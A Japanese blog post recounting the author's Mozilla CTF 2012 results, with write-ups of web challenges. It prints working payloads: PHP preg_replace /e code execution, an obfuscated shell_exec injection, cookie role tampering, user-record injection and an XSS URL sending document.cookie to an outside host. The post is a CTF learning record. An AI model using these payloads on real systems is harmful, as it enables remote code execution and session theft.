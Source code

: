===============================
Mozilla CTF 2012 に参戦しました
===============================

:date: 2012-02-13 12:00:31
:slug: blog-24

2012/01/25 (日本時間では 17 時からの 24 時間) に開催された `Mozilla CTF <https://wiki.mozilla.org/Security/Events/CTF>`_ に参加してきました。

このエントリが 2 週間後の投稿になってしまったのは、モンハン 3G で忙しかったからです。モンハン楽しいですね！　初モンハンでしたが村クエ全部クリアしてやっと初心者脱出かなというところです。　いま HR 44 です！　今度誰か一緒に狩りに行きませんか！　そんな話はどうでもいいですね！

さて、 CTF とはなんぞやという方は「 `プレイ・ザ・ゲーム！ CTFが問いかけるハックの意味 － ＠IT <http://www.atmarkit.co.jp/fsecurity/rensai/dknight01/dknight01.html>`_ 」をご覧いただくといいと思います。

CTF はこれがはじめてだったんですが、腕試しくらいの軽い気持ちで思い切って単身で参戦しました。

別作業しながらの参戦だし、開催中も普通に 8 時間ほどガッツリ睡眠取ってたのですが、スコアボードを見てみると 33 位 (1700 Points) でした。 `Web Application Security » Blog Archives » Mozilla CTF 2012 – Aftermath <https://blog.mozilla.com/webappsec/2012/01/31/after-mozilla-ctf2012/>`_ によると、 1 問以上解いたチームが 119 チームだったということなので、そこそこ健闘できたかなと思います。

.. image:: 
    http://co3k.org/image/uploaded/co3k_mozilla_ctf_score.png

非常に楽しかったので次回があったら是非また参戦したいです！　日本人で参戦したのが海老原一人っぽくて結構寂しかったので、興味がある方は次回いかがですか。

海老原が解いた問題は以下となります。 Web 系以外の問題では戦えないと判断し、今回は避けることにしました。（ちょっと悔しいので、今回避けたような種類（バイナリ系とか暗号解読系とか）の問題にも手を出せるようになるため、こっそり勉強をはじめました＞＜）

* 2 - Buoy (250)
* 11 - Spark - Message in a Bottle (200) (ページに隠されたメッセージを読み取る問題。 `Tilt <http://techcovered.blogspot.com/2012/02/firefox-11-has-tilt-integrated.html>`_ を使えばすぐにわかる。サービス問題かな)
* 16 - Sharkpedia (400)
* 19 - Fishr - Fish your messages out of the sea (500)
* 20 - Dory's Language School (300)
* 22 - Swimsuit up! (evaluated) (海っぽい格好をした写真を Twitter 上にアップするサービス問題。海老原の画像は https://twitter.com/#!/co3k/status/162230520099512322)

ということでこれらの問題の海老原の答えをいくつか載せようと思ったのですが……どうも次の開催まで CTF のサイトは閉鎖するようです。問題はしばらく一般公開されるものだと思っていたので、ちょっと残念です。今回解けなかった問題にも改めてチャレンジしたかったのに……。

とりあえず、どういう問題が出たのかわかるように、問題と解法に関する簡単なメモだけ残しておきます。他の参加者の Write-Up は `Security/Events/CTF/WriteUp2012 - MozillaWiki <https://wiki.mozilla.org/Security/Events/CTF/WriteUp2012>`_ にて公開されているので、興味がある方はこちらもお読みください。

2 - Buoy
========

Buoy という Web アプリケーションにアクセスし、サーバ上の ``/home/buoy/private.key`` の内容を答える問題です。

この問題は PHP のソースコードが配布されています。提供されたコードを斜め読みしたところ、 ``modules/read.php`` に任意 PHP コード実行の脆弱性があることが確認できました。

このスクリプトの脆弱な箇所を実行するためには認証が必要なのですが、アカウント情報は特に何も配布されていませんでした。なので、まずこの認証を突破する必要があります。

ということでそのあたりのコードを読んだところ、登録処理に脆弱性があることがわかりました。 Buoy には「オープン」と「クローズ」のふたつの登録モードと、新規アカウントのアクティベーションモードとして「自動」と「手動」が存在するようでした。

このサイトでは「クローズ」な登録モードと「手動」のアクティベーションモードが有効になっているようでしたが、先の脆弱性によってこの制限を回避することができました。

登録処理は ``modules/register.php`` によっておこなわれていました::

    funciton register( $username, $password )
    {
        $handle = @fopen( '/tmp/users.db', 'a' );

        // *snip*

        fwrite( $handle, $username . ';' . md5( $password ) . ';' . ( $auto_enable_accounts ? '1' : '0' ) . ';' . "\n" );

        // *snip*
    }

    if( isset( $_REQUEST['username'] ) && isset( $_REQUEST['password'] ) )
    {
        // *snip*

        if( register( $_REQUEST['username'], $_REQUEST['password'] ) )
        {
            // *snip*
        }
    }
    // *snip*

このスクリプトはリクエストパラメータから得た新規アカウント情報を DB に書き込みます。

本来、このスクリプトはフロントコントローラ経由で読み込まれることが想定されていて、「クローズ」な登録モードでは読み込まれることはありません。また、配布されたソースコードの ``.htaccess`` にて ``modules`` ディレクトリへのブラウジングが禁止されていて、ファイルに直接アクセスすることもできません。ところが、稼働しているサイトではこの ``.htaccess`` の制限が外れていた（おそらく設定ミスをしたという想定なのでしょう）ため、このスクリプトを直接実行することができる状態でした。

まず、 ``/modules/register.php?username=co3k&password`` に GET し、アカウントを作成し、そのアカウントを使ってログインを試みようとしました。ところが、実際に書き込まれたレコードは以下のようになっていたために成功しませんでした::

    co3k;5f4dcc3b5aa765d61d8327deb882cf99;0;

最後のフィールドはアカウントが有効か否かを表すフラグです。 Buoy は無効な co3k アカウントを拒否したのでしょう。

``$_REQUEST['username']`` はエスケープ処理を欠いているので、今度は ``username=ebihara;5f4dcc3b5aa765d61d8327deb882cf99;1;%0A&password=password`` を試すことにしました。

これで、スクリプトは以下の不正なレコードを書き込むことになりました::

    ebihara;5f4dcc3b5aa765d61d8327deb882cf99;1;
    ;5f4dcc3b5aa765d61d8327deb882cf99;0;

晴れて ebihara / password という正当なアカウントを手に入れ、ログインすることができました。

さて、それではメインの脆弱性の突破に移ります。 ``modules/read.php`` を読むと、以下の行の存在に気がつくはずです::

    $message = preg_replace( '/\[lc\](.*?)\[\/lc\]/ie', 'strtolower("$1")', $message );

``e`` 修飾子 ( ``$message`` を第二引数で指定したコードの実行結果で置き換える) と二重引用符で囲まれた文字列という、なんとも狙い所のあるコードであることがわかります。

PHP は二重引用符で囲まれた文字列での PHP ステートメントの記述を許しています。そこで、 ``[lc]{${(var_dump(file_get_contents($_GET[0])))}}[/lc]`` というメッセージを投稿し、このメッセージを表示させるページに ``&0=/home/buoy/private.key`` をリクエストパラメータに含んだ上でアクセスしました。

その結果、 ``preg_replace()`` は ``var_dump(file_get_contents('/home/buoy/private.key'))`` を実行し、この問題の答えを出力することになりました。

ちなみに、 2/4 に `PHP: rfc:remove_preg_replace_eval_modifier [PHP Wiki] <https://wiki.php.net/rfc/remove_preg_replace_eval_modifier>`_ という RFC が PHP の Wiki に提案されています。 ``e`` 修飾子は危険だし ``preg_replace_callback()`` で容易に代替可能だしで誰得だから削除しないかという提案ですね。僕もこの提案には賛同します。ソースコードを検査して脆弱な箇所を探すにしても、 ``e`` 修飾子は ``eval()`` と違って若干探しにくいですからね。

なお、ここでは攻撃コード例として ``<h1>{${eval($_GET[php_code])}}</h1>`` が挙げられていました。この問題に対する僕の回答もこれで充分でしたね。

16 - Sharkpedia
===============

このサイトの公開ディレクトリにある隠されたファイルを見つけ出す問題です。

リクエストパラメータ ``p`` の値に応じて、様々なサメの写真を表示するサイトのようでした。トップページにはいくつかリンクが用意されており、 URL はそれぞれ ``?p=a`` 、 ``?p=b`` 、 ``?p=c`` のパラメータが付加された ``index.php`` となっています。 ``p`` パラメータにこれら以外の値を指定すると、トップページが表示されます。

ところが、 ``?p='`` パラメータ付きでアクセスしてみると、 Fatal error となることに気がつきました。そのときのエラーメッセージは以下です::

    Fatal error: Function name must be a string in /usr/local/www/apache22/data/index.php on line 101

妙なメッセージですね。仮に関数名が  ``p`` パラメータから構築されていたとしても、このようなエラーメッセージにはならないはずです。

そこで、今度は ``?p='.'`` 付きでアクセスしてみると、正常なページが何のエラーもなく表示されました。この結果からまず、 ``p`` パラメータが文字列によって動的に構築される PHP コード中の文字列定数内に反映されてることがわかります。そして、値として ``'`` を指定した場合に ``Function name must be ...`` というエラーが出力されるということは、 ``create_function()`` により関数を構築しようとしているが、 ``'`` を与えた場合に PHP の構文が壊れるため、 ``create_function()`` が ``false`` を返し、その ``false`` を関数名として扱おうとしてエラーになったのだと推測することができます。

「ああ、これは簡単だわ」と考え、 ``?p='.phpinfo().'`` を試してみると、 ``phpinfo()`` の結果が……出力されず、トップページが表示されました。

どうやら ``p`` パラメータには、アルファベットは 1 つのみ受け入れたり、 ``_`` を拒否するなどといった制約があるようです。

しかしみなさんご存じの通り、 PHP はアルファベットや数字を使わずに書くことができます。どんな文字もビット演算によって生成できますし、変数名には 0x7f 以降の文字も使用できます（ひらがなとかも通る）。

ということで最終的には、以下の値を ``p`` パラメータに記述しました::

    a%27.%28$%E3%81%82=%27[@@@@%60@[@%23%27^%27%28%28%,,?%%23%@%27%29.%28$%E3%81%84=%27@[%27^%27,%28%27%29.%28$%E3%81%82%28$%E3%81%84%29%29.%27

URL デコード済みの文字列は以下となります::

    a'.($あ='[@@@@`@[@#'^'((%,,?%#%@').($い='@['^',(').($あ($い)).' 

さらにこれをビット演算した結果が以下となります::

    a'.($あ='shell_exec').($い='ls').($あ($い)).'

これによってサーバ上で ``ls`` コマンドが実行されることとなり、隠れたファイルが白日の下に晒されました。

19 - Fishr - Fish your messages out of the sea
==============================================

Twitter っぽい Web アプリケーションで、提供されたアカウントから見ることのできない flagdud3 のプライベートなメッセージを読み取る問題です。

いくつかサイトを見て回ったあと、 JSON をレスポンスする ``/ajax.php?p=wall&arg=admin`` に cookie なしで GET してみると、以下のメッセージが出力されました::

    Notice: Undefined index: data in /usr/local/www/apache22/data/inc/wall.inc on line 10
    Notice: Undefined offset: 1 in /usr/local/www/apache22/data/inc/util.inc on line 28
    Notice: Undefined offset: 2 in /usr/local/www/apache22/data/inc/util.inc on line 29 

なにげなく ``/inc`` にアクセスすると、ディレクトリリスティングが有効になっているために、 PHP スクリプトの一覧が出力されることになりました。

そしてなんと、 ``*.inc`` ファイルについてはスクリプトの内容がブラウザから読めてしまいます。

さっそくウォールの出力を担当していると思われる ``/inc/wall.inc`` を見てみると、以下のようなコードがありました::

    if ($resUser['private'] != 1 || $resUser['name'] == $user['name'] || $user['role'] == 'admin' || is_following_you($resUser['id'], $user['id'])) {

プライベートなウォールを読むには、そのユーザ自身か、管理者、もしくはフォロワーになる必要があるようですね。

``$user`` は ``get_login_info()`` から得られたものです。この関数は ``/inc/util.inc`` にて定義されています::

    function get_login_info($data) {
        $data = explode(':', $data);
        $user = array(
            'id'    => urldecode($data[0]),
            'name'  => urldecode($data[1]),
            'email' => urldecode($data[2]),
            'role'  => (count($data) > 3) ? $data[3] : 'user'
        );
        return $user;
    }

``$data`` は cookie から来た値で、提供されたアカウントでログインしたときの値は ``7:0wn:0wn@40spam.com`` でした。

そこで ``role`` の部分が ``admin`` であるときの挙動を確認するために ``7:0wn:0wn@40spam.com:admin`` を cookie にセットしてみると、なんと flagdud3 のウォールが見えてしまいました。

以下のコードを見て、 ``SECRET`` 定数の値も破る必要があると思っていたので、ちょっと拍子抜けでした::

    function is_logged_in() {
        // SECRET of settings.py (32 chars)
        return (!empty($_COOKIE['data']) && !empty($_COOKIE['mac']) && md5(SECRET . urldecode($_COOKIE['data'])) == $_COOKIE['mac']);
    }

20 - Dory's Language School
===========================

ページ上にある XSS を利用し、その XSS を発動させる URL を踏ませ、 Cookie に含まれるメッセージを盗み出す問題（URL は MozillaCTF の Twitter アカウントに DM で送信し、中の人に踏んでもらう）ですが、 XSS 脆弱性はすぐ見つかります。脆弱な場所は以下です::

    var lang = ''; var country = '';

これらの変数の値はリクエストパラメータ ``language`` から来たものです（なぜか最初の 1 文字が取り除かれますが）。ただ、この値を使って攻撃をおこなうとすると、いくつか問題を回避する必要が出てきます。

* ``'`` は Unicode エスケープシーケンスに置換される
* 数値以外の文字がこの変数に存在すると、スクリプトが "attack detected" というアラートを出す。おそらく被害者がアラートを見たらブラウジングを中断する想定なのでしょう
* 文字数制限が存在する

また、コードはいくつか難読化が施されていました。難読化されたコードを読み解いていくと ``eval()`` が ``_()`` として定義されていて、 ``protect()`` という関数でアラートを出していることがわかりました。

ということで以下の exploit を作成しました（ちょうどこれがギリギリ入るくらいの文字数制限が施されていました）::

    http://example.com/?language=a;_(location.hash.substr(1))//\#protect=focus;location.href="http://co3k.org/?ctf="+document.cookie;

これで、以下の JavaScript が挿入されました::

    var lang = '_(location.hash.substr(1))//\'; var country = ' // ここまで文字列定数
    _(location.hash.substr(1))//\

``_()`` 、 つまり ``eval()`` を用いて、フラグメント識別子の ``#`` の後ろに続く文字列を ``JavaScript`` として実行するようにし、文字列制限を気にせずに任意のコードが書けるようにしました。

フラグメント識別子に書かれたコードでは、まず ``protect()`` を ``window.focus()`` に置き換えることで、攻撃の存在に気がつかれないようにし、 ``document.cookie`` をパラメータにつけて自分のサイトに送信しています。

あとはこの URL を @MozillaCTF に送りつけ、アクセスログに答えが舞い込んでくるのを待てばいいということになります。